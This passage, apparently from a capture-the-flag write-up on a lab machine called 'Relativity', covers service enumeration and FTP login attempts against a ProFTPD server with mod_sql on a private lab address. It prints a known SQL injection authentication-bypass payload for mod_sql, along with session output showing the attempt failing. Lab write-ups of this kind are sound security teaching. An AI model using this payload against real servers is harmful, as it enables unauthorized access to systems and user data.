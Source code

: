 #### putting the enumeration together
With the little bit of poking around we have just done, we are able to say that this may be a Fedora Core Server, running Apache 2.2.13, with ProFTPD and the mod_sql plugin. This already gives us quite a lot to work with in the sense of researching the respective software in search of known vulnerabilities.

With me loving web based security, my first attempt at further enumerating the machine was via the web server. I searched for `cgi-bin/` type problems, potentially hidden directories via `robots.txt`, username enumeration via home directories etc. to no avail. At some stage it became very apparent that the initial entry point for this server was not via the Web.

### the initial attack
The next step was the FTP server. As it was purposely disclosing the fact that it was using mod_sql, instinct kicked in and I attempted to check the responses if I tried to login with username **'** and password **'**.

```bash mod_sql SQLi attempt
# ftp 192.168.56.21
Connected to 192.168.56.21.
220 Welcome to Relativity FTP (mod_sql)
Name (192.168.56.21:root): '
331 Password required for '.
Password:
421 Service not available, remote server has closed connection
Login failed.
No control connection for command: Success
ftp>
```

As you can clearly see, the response does differ from when I initially attempted to login as anonymous. This highly suggests that one of the fields is SQL injectable. And so, it was research time. Using good 'ol trusty Google, I searched for *proftpd mod_sql injection vulnerability*. Hey presto! The very first hit describes a vulnerability [disclosed](http://www.securityfocus.com/bid/33722) in 2009.

From this research, we can be pretty confident in thinking that this specific FTP server may as well be vulnerable to the exact same vulnerability, and may very well be our first entry point into the system. Sample exploits are available [here](http://www.securityfocus.com/bid/33722/exploit), and as such I attempted to exploit this. I copied the SQLi payload from the website `%') and 1=2 union select 1,1,uid,gid,homedir,shell from users; --` and pasted this as the username, whereafter I provided 1 as the password.

```bash mod_sql SQLi attempt 2
# ftp 192.168.56.21
Connected to 192.168.56.21.
220 Welcome to Relativity FTP (mod_sql)
Name (192.168.56.21:root): %') and 1=2 union select 1,1,uid,gid,homedir,shell from users; --
331 Password required for %').
Password:
421 Service not available, remote server has closed connection
Login failed.
No control connection for command: Success
ftp> bye
```
